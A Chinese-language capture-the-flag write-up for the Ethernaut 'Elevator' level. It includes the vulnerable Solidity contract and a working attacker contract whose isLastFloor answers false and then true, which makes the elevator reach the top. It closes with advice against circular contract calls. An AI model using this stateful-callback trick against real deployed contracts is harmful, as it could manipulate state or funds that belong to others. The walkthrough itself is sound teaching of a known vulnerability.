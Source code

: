 # level11 Elevator

## 1. 问题

要求你到达 `Elevator` 合约的顶层，也就是设置合约中 `top` 字段值为 `true`.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
    function isLastFloor(uint256) external returns (bool);
}

contract Elevator {
    bool public top;
    uint256 public floor;

    function goTo(uint256 _floor) public {
        Building building = Building(msg.sender);

        if (!building.isLastFloor(_floor)) {
            floor = _floor;
            top = building.isLastFloor(floor);
        }
    }
}
```

## 2. 解法

因为 `Building` 合约是我们自己实现的，所以我们可以定制这个逻辑，让 `if (!building.isLastFloor(_floor))` 时函数返回 `false`，等到后续 `top = building.isLastFloor(floor)` 时返回 `true`.

1. 代码如下：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Elevator {
    function goTo(uint256 _floor) external;
}

contract Building {
    int private visitCount = 0;
    
    function isLastFloor(uint256 _floor) public returns (bool) {
        if (visitCount == 0) {
            // 第一次调用，返回false, _floor不重要
            // 调整visitCount，让后续无法再进入这个分支
            visitCount ++;
            return false;
        } else {
            // 后面再调用，会走到这个分支
            return true;
        }
    }
    
    // 用来触发调用 goTo 函数
    function trigger(address _elevator, uint256 _floor) external {
        Elevator(_elevator).goTo(_floor);
    }
}
```

2. 在remix上编译部署，然后触发 `trigger` 函数，[交易链接]():

![](../../resources/img/level11/trigger.png)

3. 在ethernaut网页上点击 `submit instance`，通过！

## 3. 补充说明

> [!IMPORTANT]
> 尽量避免循环调用！
> 
> 在我们的例子中， `Building` 合约调用了 `Elevator` 合约中的 `goTo` 函数，而这个函数内部又回调了 `Building` 合约的 `isLastFloor`, 形成合约间的循环调用。
> 
> 一般来说，我们应该避免合约间循环调用：
> 1. 循环调用容易出现 `重入攻击`
> 2. 循环调用可能导致gas费用过高（合约间调用次数多）
> 3. 容易因为最后的某次失败导致总体失败
> 4. 链路复杂，可测性低、维护困难


<br/>
<br/>
| [⬅️ level10 Re-entrancy](../level10_reentrancy/README.md) | [level12 Privacy ➡️](../level12_privacy/README.md) |
|:------------------------------|--------------------------:|